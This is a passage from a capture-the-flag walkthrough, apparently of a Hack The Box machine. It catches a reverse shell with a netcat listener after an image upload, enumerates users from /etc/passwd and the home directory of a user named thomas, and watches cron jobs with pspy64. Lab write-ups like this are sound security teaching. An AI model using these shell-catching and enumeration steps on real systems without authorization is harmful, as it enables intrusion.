 Set up the listener and upload the image

`rlwrap -pBlue nc -nvlp 4444`
```
listening on [any] 4444 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.140] 53778
sh: 0: can`t access tty; job control turned off
whoami
www-data
```
Foothold has been obtained

## User
---
Who is on this machine?
`cat /etc/passwd | grep -P '/bin/.*sh' | cut -f1 -d ":"`
```
root
thomas
```

`ls -la /home/thomas`
```
total 40
drwxr-xr-x 6 thomas thomas 4096 Apr 21 12:32 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
drwx------ 3 thomas thomas 4096 Apr 21 12:13 .gnupg
drwxr-xr-x 3 thomas thomas 4096 Apr 21 12:32 .local
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
-rw-r----- 1 root   thomas   33 Apr 21 09:13 user.txt
```
Thomas is our target

Dylan recommended pspy64 to enumerate

> pspy64 monitors background processes without root level privileges which is pretty useful.
{: .prompt-tip }

```
2022/04/20 12:20:01 CMD: UID=0    PID=21653  | /bin/sh -c rm /tmp/* 
2022/04/20 12:20:01 CMD: UID=1000 PID=21654  | /bin/sh -c /usr/local/bin/convert_images.sh 
2022/04/20 12:20:01 CMD: UID=0    PID=21656  | /bin/sh -c rm /tmp/* 
2022/04/20 12:20:01 CMD: UID=0    PID=21655  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/04/20 12:20:01 CMD: UID=1000 PID=21657  | /usr/local/bin/mogrify -format png *.* 
2022/04/20 12:20:01 CMD: UID=1000 PID=21658  | pkill mogrify
```

Based on info here, we see two files/directories getting automatically backed up or executed. To start, investigate convert_images.sh
